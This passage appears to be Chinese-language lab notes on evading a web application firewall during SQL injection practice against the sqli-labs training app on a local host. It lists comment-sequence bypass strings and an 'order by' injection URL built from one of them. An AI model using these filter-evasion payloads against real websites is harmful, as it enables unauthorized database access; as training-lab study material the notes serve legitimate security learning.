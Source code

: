 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608172756462.png" alt="image-20230608172756462" style="zoom:50%;" />

给出几个可成功绕过的符号

```
/*//--**/ 
/*//---**/
/*//--/*/
/*//--/*/
```

#### order by查询

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=1' order /*//--/*/ by 3%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608173502813.png" alt="image-20230608173502813" style="zoom:50%;" />
